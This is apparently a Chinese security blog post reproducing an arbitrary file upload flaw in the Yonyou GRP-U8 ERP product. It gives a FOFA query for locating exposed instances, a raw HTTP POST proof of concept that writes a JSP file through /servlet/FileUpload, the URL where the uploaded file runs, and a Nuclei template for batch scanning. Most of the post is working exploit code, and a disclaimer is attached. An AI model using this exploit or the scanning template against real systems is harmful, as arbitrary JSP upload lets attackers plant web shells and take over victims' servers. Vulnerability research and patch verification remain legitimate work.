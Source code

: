 # 原创
：  漏洞复现--用友GRP-U8-FileUpload任意文件上传

# 漏洞复现--用友GRP-U8-FileUpload任意文件上传

## 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行负责**

### 一：漏洞描述

用友GRP-U8是一款功能全面、灵活度高、可定制性强的ERP软件，能够协助企业实现资源的高效管理，优化企业运营流程，提升整体管理水平。该产品存在任意文件上传漏洞。

### 二：漏洞影响版本

用友GRP-U8

### 三：网络空间测绘查询

fofa:<br/> ` app="用友-GRP-U8"`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/c7a590948a6d148bf52c79dceb19a632.jpeg"/>

### 四：漏洞复现

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/687db010079708a1a4223ea17b510537.jpeg"/><br/> POC:

```
POST /servlet/FileUpload?fileName=test.jsp&amp;actionID=update HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:105.0) Gecko/20100101 Firefox/105.0
Content-Length: 51
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close

&lt;% out.println("This page has a vulnerability!");%&gt;

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/7f7012cd30dd4840fbfcd0d882efb407.jpeg"/><br/> 访问/R9iPortal/upload/test.jsp<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/09e837cc72cf83a70224552be46c7c61.jpeg"/>

### 五：批量检测

```
id: yonyou-grp-u8-fileupload

info:
  name: yonyou-grp-u8-fileupload
  author: 芝士土拨鼠
  severity: critical
  description: 用友GRP-U8是一款功能全面、灵活度高、可定制性强的ERP软件，能够协助企业实现资源的高效管理，优化企业运营流程，提升整体管理水平。该产品存在任意文件上传漏洞。
  metadata:
    max-request: 1
    fofa-query: app="用友-GRP-U8"
    verified: true
variables:
  file_name: "{{to_lower(rand_text_alpha(8))}}"
  file_content: "{{to_lower(rand_text_alpha(20))}}"
requests:
  - raw:
      - |+
        POST /servlet/FileUpload?fileName={{file_name}}.jsp&amp;actionID=update HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:105.0) Gecko/20100101 Firefox/105.0
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
        Accept-Encoding: gzip, deflate
        Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
        Connection: close
        
        &lt;% out.println("{{file_content}}");%&gt;

      - |
        GET /R9iPortal/upload/{{file_name}}.jsp HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
        Accept-Encoding: gzip

    matchers:
      - type: dsl
        dsl:
          - "status_code_1 == 200 &amp;&amp; status_code_2 == 200 &amp;&amp; contains(body_2, '{{file_content}}')"

```
